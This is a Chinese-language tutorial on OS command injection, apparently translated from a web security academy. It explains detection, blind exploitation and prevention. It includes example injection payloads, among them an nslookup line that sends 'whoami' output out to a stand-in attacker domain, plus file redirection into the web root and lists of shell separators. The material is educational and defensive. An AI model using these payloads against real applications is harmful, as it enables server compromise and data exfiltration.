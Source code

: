 # 操作系统命令注入

## 什么是OS命令注入？

在本节中，我们将解释什么是操作系统命令注入，描述如何检测和利用漏洞，阐述一些针对不同操作系统的有用命令和技术，并总结如何防止操作系统命令注入。

![](../.gitbook/assets/image%20%285%29%20%283%29%20%283%29%20%283%29%20%284%29.png)

操作系统命令注入（也称为 shell 注入）是一个 web 安全漏洞，它允许攻击者可以在运行应用程序的服务器上执行任意操作系统（OS）命令，并且通常会完全破坏该应用程序及其所有数据。很多时候，攻击者可以利用 OS 命令注入漏洞来破坏托管基础结构的其他部分，利用信任关系将攻击转移到组织内的其他系统。

{% embed url="https://www.youtube.com/watch?v=8PDDjCW5XWw" %}

## 执行任意命令

考虑一个购物应用程序，该应用程序使用户可以查看特定商店中某商品是否有库存。 该信息可通过如下网址访问：

```text
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

为了提供库存信息，应用程序必须查询各种旧系统。 由于历史原因，该功能是通过使用产品和存储ID作为参数调用shell命令来实现的：

```text
stockreport.pl 381 29
```

此命令输出指定项目的库存状态，并返回给用户。

由于该应用程序无法防御OS命令注入，因此攻击者可以提交以下输入以执行任意命令：

```text
& echo aiwefwlguh &
```

如果此输入是在productID参数中提交的，那么应用程序执行的命令是：

```text
stockreport.pl & echo aiwefwlguh & 29
```

echo命令只是使提供的字符串在输出中回显，并且是测试某些类型的OS命令注入的有用方法。 ＆字符是shell命令分隔符，因此执行的实际上是一个接一个的三个独立命令。 因此，返回给用户的输出为：

```text
Error - productID was not providedaiwefwlguh29: command not found
```

输出的三行表明：

* 原始的stockreport.pl命令在没有预期参数的情况下执行，因此返回了错误消息。
* 执行注入的echo命令，并且在输出中回显提供的字符串。
* 原始参数29作为命令执行，从而导致错误。

通常，将附加命令分隔符＆放置在注入命令之后是很有用的，因为这会将注入命令与注入点后面的内容分开。 这减少了随后发生的事情将阻止注入的命令执行的可能性。

**实验室**[OS命令注入，简单案例](http://portswigger.cn/academy/subpage/allTopics/all-5.html#)

## 有用的命令

当您确定了OS命令注入漏洞后，通常可以执行一些初始命令来获取有关您受到破坏的系统的信息。 以下是在Linux和Windows平台上有用的一些命令的摘要：

| 命令目的 | Linux | Windows |
| :--- | :--- | :--- |
| 当前用户名 | `whoami` | `whoami` |
| 操作系统 | `uname -a` | `ver` |
| 网络配置 | `ifconfig` | `ipconfig /all` |
| 网络连接 | `netstat -an` | `netstat -an` |
| 运行过程 | `ps -ef` | `任务列表` |

## 盲操作系统命令注入漏洞

OS命令注入的许多实例都是盲目的漏洞。 这意味着应用程序不会在其HTTP响应中返回命令的输出。 盲目漏洞仍然可以被利用，但是需要不同的技术。

考虑一个允许用户提交有关该站点的反馈的网站。 用户输入他们的电子邮件地址和反馈消息。 然后，服务器端应用程序会向站点管理员生成一封包含反馈的电子邮件。 为此，它使用提交的详细信息调出邮件程序。 例如：

```text
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

mail命令的输出（如果有）不会在应用程序的响应中返回，因此使用echo有效负载将无效。 在这种情况下，您可以使用多种其他技术来检测和利用漏洞。

### 使用时间延迟检测盲注OS命令注入

您可以使用注入的命令来触发时间延迟，从而允许您根据应用程序响应的时间来确认命令已执行。 ping命令是执行此操作的有效方法，因为它使您可以指定要发送的ICMP数据包的数量，从而指定该命令运行所花费的时间：

```text
& ping -c 10 127.0.0.1 &
```

此命令将导致应用程序ping其环回网络适配器10秒钟。

**实验室**[带有延迟的盲OS命令注入](http://portswigger.cn/academy/subpage/allTopics/all-5.html#detecting-blind-os-command-injection-using-time-delays)

### 通过重定向输出来利用盲OS命令注入

您可以将注入命令的输出重定向到web根目录下的文件中，然后可以使用浏览器进行检索。 例如，如果应用程序从文件系统位置/var/www/static提供静态资源，则可以提交以下输入：

```text
& whoami > /var/www/static/whoami.txt &
```

&gt;字符将whoami命令的输出发送到指定文件。 然后，您可以使用浏览器获取[https://vulnerable-website.com/whoami.txt来检索文件，并查看注入命令的输出。](https://vulnerable-website.com/whoami.txt来检索文件，并查看注入命令的输出。)

使用带外（OAST）技术利用盲OS命令注入

您可以使用注入的命令，通过OAST技术触发与您控制的系统的带外网络交互。 例如：

```text
& nslookup kgji2ohoyw.web-attacker.com &
```

此有效负载使用nslookup命令对指定域进行DNS查找。 攻击者可以监视是否发生了指定的查找，从而检测到命令已成功注入。

带外通道还提供了一种从注入的命令中提取输出的简便方法：

```text
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

这将导致对包含whoami命令结果的攻击者域的DNS查找：

```text
wwwuser.kgji2ohoyw.web-attacker.com
```

**实验室**[带带外数据渗透的盲OS命令注入](http://portswigger.cn/academy/subpage/allTopics/all-5.html#)

## 注入OS命令的方式

可以使用各种shell元字符来执行OS命令注入攻击。

许多字符用作命令分隔符，使命令可以链接在一起。 以下命令分隔符在Windows和基于Unix的系统上均可使用：

* `&`
* `&&`
* `|`
* `||`

以下命令分隔符仅在基于Unix的系统上工作：

* `;`
* Newline \(`0x0a` or `\n`\)

在基于Unix的系统上，您还可以使用反引号或美元字符在原始命令内对注入的命令执行内联执行：

* \`\`\` 注入命令 \`\`\`
* `$(` 注入命令 `)`

请注意，不同的shell元字符具有细微不同的行为，这可能会影响它们是否在某些情况下起作用，以及它们是否允许带内检索命令输出或仅对盲目利用有用。

有时，您控制的输入会出现在原始命令的引号中。 在这种情况下，需要先使用引号终止上下文（使用“或”），然后再使用适当的shell元字符来插入新命令。

## 如何防止OS命令注入攻击

到目前为止，防止OS命令注入漏洞的最有效方法是永远不要从应用程序层代码中调用OS命令。 几乎在每种情况下，都有使用更安全的平台API来实现所需功能的替代方法。

如果认为无法避免使用用户提供的输入来调用OS命令，则必须执行强输入验证。 有效验证的一些示例包括：

* 根据允许值的白名单进行验证。
* 验证输入是否为数字。
* 验证输入仅包含字母数字字符，不包含其他语法或空格。

切勿尝试通过转义shell元字符来清理输入。 实际上，这太容易出错，容易被熟练的攻击者绕开。

